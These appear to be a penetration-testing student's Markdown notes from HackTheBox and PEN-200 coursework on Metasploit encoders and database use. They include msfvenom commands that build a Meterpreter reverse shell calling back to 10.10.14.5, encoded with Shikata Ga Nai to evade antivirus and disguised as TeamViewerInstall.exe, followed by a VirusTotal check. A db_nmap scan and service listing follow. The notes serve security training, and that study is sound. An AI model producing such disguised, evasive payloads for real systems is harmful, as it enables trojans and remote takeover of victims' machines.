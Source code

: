 # Payload
[[Payload]]

---
# Encoders
Encoders have assisted with making *payloads compatible with different processor architectures* while at the same time helping with *antivirus evasion*. Encoders come into play with the role of changing the payload to run on different operating systems and architectures.

**Shikata Ga Nai (SGN)** is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore.

```sh
# Use SGN once
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

# Use SGN for multiple iterations
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```
```sh
# Scan exe through VirusTotal API
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

---
# Databases
https://academy.hackthebox.com/module/39/section/411
```sh
# Start PostgreSQL
sudo systemctl start postgresql

# Initialize database
sudo msfdb init
sudo msfdb status
msfconsole -q

# Verify database connectivity
msf6 > db_status

# Show workspaces
msf6 > workspace
* default

# Create a new workspace
msf6 > workspace -a pen200
msf6 > workspace pen200

# Use nmap in msfconsole
msf6> db_nmap -A 192.168.50.202

# Get a list of hosts discovered
msf6 > hosts

# List services
msf6 > services
msf6 > services -p 8000
msf6 > services -p 445 --rhosts    # Set RHOST(s) from the nmap scan

# Show credentials
```